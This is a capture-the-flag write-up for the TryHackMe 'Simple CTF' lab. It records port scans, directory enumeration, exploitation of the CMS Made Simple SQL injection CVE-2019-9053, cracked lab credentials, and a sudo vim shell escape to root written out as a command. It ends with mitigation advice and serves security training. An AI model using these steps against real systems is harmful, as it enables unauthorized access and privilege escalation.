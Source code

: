 ```yaml
---
description: Beginner level ctf
---
```


# Simple CTF

The room can be accessed [here](https://tryhackme.com/room/easyctf)

## Information Gathering

### Rustscan Scan

```bash
┌──(lvksus㉿kali)-[~]
└─$ rustscan -a 10.10.37.78 --ulimit 5000                                  1 ⨯
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/lvksus/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.37.78:21
Open 10.10.37.78:80
Open 10.10.37.78:2222
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:54 EST
Initiating Ping Scan at 22:54
Scanning 10.10.37.78 [2 ports]
Completed Ping Scan at 22:54, 2.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:54
Completed Parallel DNS resolution of 1 host. at 22:54, 0.00s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 22:54
Scanning 10.10.37.78 [3 ports]
Discovered open port 21/tcp on 10.10.37.78
Discovered open port 2222/tcp on 10.10.37.78
Discovered open port 80/tcp on 10.10.37.78
Completed Connect Scan at 22:54, 1.45s elapsed (3 total ports)
Nmap scan report for 10.10.37.78
Host is up, received syn-ack (0.20s latency).
Scanned at 2022-02-01 22:54:19 EST for 1s

PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
80/tcp   open  http         syn-ack
2222/tcp open  EtherNetIP-1 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.59 seconds
```

### Nmap Scan

```bash
┌──(lvksus㉿kali)-[~/Documents/tryhackme/simple_ctf]
└─$ nmap -sV 10.10.37.78                             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:55 EST
Nmap scan report for 10.10.37.78
Host is up (0.090s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

## Enumeration

### Dirsearch

```bash
dirsearch -u http://10.10.37.78 -w /usr/share/dirb/wordlists/common.txt -x 404 -t 100
```

```bash
┌──(lvksus㉿kali)-[~]
└─$ dirsearch -u http://10.10.37.78 -w /usr/share/dirb/wordlists/common.txt -x 404 -t 100

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 4613

Output File: /home/lvksus/.dirsearch/reports/10.10.37.78/_22-02-01_23-11-21.txt

Error Log: /home/lvksus/.dirsearch/logs/errors-22-02-01_23-11-21.log

Target: http://10.10.37.78/

[23:11:21] Starting: 
[23:11:30] 200 -   11KB - /index.html                                       
[23:11:35] 200 -  929B  - /robots.txt                                       
[23:11:35] 403 -  299B  - /server-status                                    
[23:11:35] 301 -  311B  - /simple  ->  http://10.10.37.78/simple/           
                                                                             
Task Completed
```

![CMS Made Simple Version](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Made Simple Version.png>)

![CMS Made Simple Admin Login](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Admin Console.png>)

## Vulnerability Assessment

This Content Management System is vulnerable to [CVE-2019-9053: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9](https://www.exploit-db.com/exploits/46635)

### Proof of Concept&#x20;

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_POC.png>)

{% hint style="info" %}
Used this for termcolor issue

[https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/](https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/)
{% endhint %}

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Exploit (1).png>)

### Credentials

username: <mark style="color:green;">`mitch`</mark>\
email: <mark style="color:green;">`admin@admin.com`</mark>\
password: <mark style="color:green;">`secret`</mark>

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_ssh+user.txt.png>)

## Privilege Escalation

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Pasted image 20220202112308.png>)

[https://gtfobins.github.io/gtfobins/vim/#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_sudo vim.png>)

```bash
mitch@Machine:/home$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/home$ sudo /usr/bin/vim -c ':!/bin/bash'

root@Machine:/home# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:/home# 
```

## Root Flag

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_rootFlag.png>)

## Mitigations

### **Password Change**

The user 'Mitch' should change their password to something secure such as: <mark style="color:green;">`Jlds#5@asd53Z`</mark>

### **SQLi Sanitization**

Client-Side and Server-Side input validation and sanitization Secure Coding & SDLC
